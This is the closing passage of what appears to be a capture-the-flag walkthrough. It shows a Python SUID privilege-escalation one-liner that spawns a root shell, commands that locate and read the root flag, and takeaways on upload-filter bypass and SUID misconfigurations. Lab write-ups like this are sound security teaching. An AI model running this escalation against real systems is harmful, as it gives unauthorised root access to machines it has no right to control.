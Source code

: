 ```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![s16](https://github.com/user-attachments/assets/457b8600-292e-4b3b-94a4-7325bed7f183)

Now we can use `whoami` to see we are now root

now we can just:

```bash
find / -name root.txt
cat /root/root.txt
```

Now we have the root flag

![s17](https://github.com/user-attachments/assets/d5ae72f8-22df-4c1e-b9d3-1a725fd1e78c)

## 4. Takeaways

1. **File Upload Bypass**: Testing various file extensions can bypass weak filters
2. **SUID Misconfigurations**: Always check for unusual SUID binaries
3. **Python Privilege Escalation**: Python with SUID is a common privilege escalation vector
4. **Persistence Pays Off**: Multiple attempts with different approaches led to success
5. **Comprehensive Enumeration**: Using large wordlists in Gobuster helped find hidden directories

